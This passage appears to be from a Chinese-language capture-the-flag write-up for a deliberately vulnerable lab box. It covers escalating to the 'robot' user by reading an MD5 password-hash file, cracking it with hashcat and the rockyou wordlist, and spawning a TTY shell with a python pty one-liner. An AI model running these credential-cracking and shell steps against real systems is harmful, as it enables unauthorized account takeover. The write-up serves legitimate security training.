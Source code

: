 # 提权

## 提权到robot用户

发现特殊面码文件，可以爆破尝试

```bash
daemon@linux:/home$ cd /home/robot
cd /home/robot
daemon@linux:/home/robot$ ls
ls
key-2-of-3.txt
password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

```
hashcat -a 0 -m 0 pass  /usr/share/wordlists/rockyou.txt
```

<img src=".\图片\Snipaste_2023-06-25_16-48-04.png" alt="Snipaste_2023-06-25_16-48-04" style="zoom:80%;" />

得到账号密码

```
robot:abcdefghijklmnopqrstuvwxyz
```

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
